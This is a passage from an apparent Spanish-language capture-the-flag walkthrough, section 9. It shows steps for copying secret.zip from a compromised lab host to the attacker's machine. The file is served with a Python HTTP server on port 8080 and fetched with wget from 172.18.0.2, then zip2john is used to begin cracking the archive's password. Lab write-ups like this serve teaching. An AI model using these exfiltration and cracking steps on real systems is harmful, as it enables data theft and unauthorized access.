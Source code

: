 Para extraer el archivo **secret.zip**, nos lo pasamos a nuestra maquina atacante levantado un servidor en Python por el puerto **8080**:

```bash
python3 -m http.server 8080
```

![alt text](./Imagenes/image-28.png)

Abrimos otra shell donde con un **wget** tomar el **secret.zip**

```bash
sudo wget http://172.18.0.2:8080/secret.zip
```

Y haciendo un **ls** vemos que ya tenenmos el **.zip**  

## 9. Extraccion del .zip

Vamos a crackearlo con zip2john y john:

```bash
sudo sh -c 'zip2john secret.zip > hash'
```

![alt text](./Imagenes/image-29.png)
